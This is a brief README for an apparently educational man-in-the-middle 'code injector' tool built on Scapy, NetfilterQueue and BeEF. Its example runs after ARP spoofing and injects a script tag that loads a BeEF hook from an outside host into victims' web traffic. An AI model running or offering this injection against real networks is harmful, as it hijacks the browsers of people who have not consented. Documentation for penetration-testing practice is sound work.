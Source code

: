 # Code injector

## Requirements

* Root access
* Python 3
* Scapy
* NetfilterQueue
* BeEF

## Usage

```shell
usage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Destination (sslstrip, forward, local)
  -c CODE, --code CODE  Code to inject
```

### Example

Using BeEF (start [ARPSpoofer](../arp_spoofer/arp_spoofer.py) first):
```shell
kali:~$ sudo python3 code_injector.py -d forward -c '<script src="http://192.168.122.108:3000/hook.js"></script>'
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [BeEF unable to load extensions](https://github.com/tymyrddin/ymrir/wiki/beef.md)
